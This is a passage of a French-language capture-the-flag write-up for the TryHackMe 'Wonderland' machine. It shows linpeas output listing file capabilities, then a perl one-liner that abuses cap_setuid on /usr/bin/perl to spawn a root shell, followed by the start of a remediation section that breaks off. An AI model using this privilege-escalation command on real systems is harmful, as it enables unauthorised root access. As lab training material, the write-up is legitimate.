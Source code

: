 ## LINPEAS

```bash
...SNIPPED...
╔══════════╣ Capabilities                                                                                                                                                               │  File "/usr/lib/python3.11/http/server.py", line 674, in do_GET
                                                                                                                                                                                                                     │    self.copyfile(f, self.wfile)
Files with capabilities (limited to 50):                                                                                                                                                                             │  File "/usr/lib/python3.11/http/server.py", line 873, in copyfile
/usr/bin/perl5.26.1 = cap_setuid+ep                                                                                                                                                                                  │    shutil.copyfileobj(source, outputfile)
/usr/bin/mtr-packet = cap_net_raw+ep                                                                                                                                                                                 │  File "/usr/lib/python3.11/shutil.py", line 200, in copyfileobj
/usr/bin/perl = cap_setuid+ep    
...SNIPPED...


```

Nous voyons que **/usr/bin/perl** a des capacités **cap_setuid+ep**.
Nous pouvons lancer la commande suivante pour devenir root:

```bash
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
hatter@wonderland:~$ whoami;id
root
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

Enfin, nous pouvons afficher le contenu du flag **/home/alice/root.txt**:

```bash
# cat /home/alice/root.txt
thm{********************}
```

* * *

## FIX

#### 1\. Éviter de cacher des informations sensibles dans des images.

#### 2\. Modifier le script python **walrus\_and\_the_carpenter.py** :

Pour importer le module **random** de manière sécurisée dans votre script Python, vous pouvez utiliser l'approche suivante:
